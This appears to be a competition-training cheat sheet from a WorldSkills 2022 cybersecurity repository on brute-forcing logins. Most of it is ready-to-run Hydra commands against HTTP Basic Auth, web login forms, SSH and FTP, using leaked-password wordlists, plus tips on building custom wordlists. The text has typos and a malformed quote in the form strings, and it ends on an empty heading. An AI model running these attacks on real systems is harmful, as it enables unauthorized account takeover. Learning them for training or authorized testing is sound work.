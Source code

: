 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Basic HTTP Auth Forms Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method						|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module **http[s]-post-form**

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

Combined Wordlist

```console
hydra -c /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Pasword Brute Force

> NOTE: Try default usernames that are often used in admin pannels.
>  admin,administrator,wpadmin, root etc.

```console
hydra -l admin -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```
# PLACEHOLDER

# Usefull Commands
The following commands can help if you want to create a personalised wordlist


```console
sed -ri '/^.{,7}$/d' file.txt
```
This command will remove anything that is shorter than eight characters 
```console
sed -ri '/[!-/:-@\[-`\{-~]+/!d' file.txt
```
This command will remove anything that does not contain special characters
```console
sed -ri '/[0-9]+/!d' file.txt
```
This will remove anything that has no numbres

```console
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Name-of-target > file.txt
```

This tool can be used to create a custom username wordlist, using an name of an user.

# Service Authentication Brute Forcing (SSH & FTP)

[!] Use This command if you created an world-list and password-list based of an username.
```console
hydra -L username-list -P password-list -u -f ssh://<TargetIP:Port> -t 4 
```

```console
hydra -l username-list -P password-list ftp://<FTPIP>
```

## Notes
Cracking 
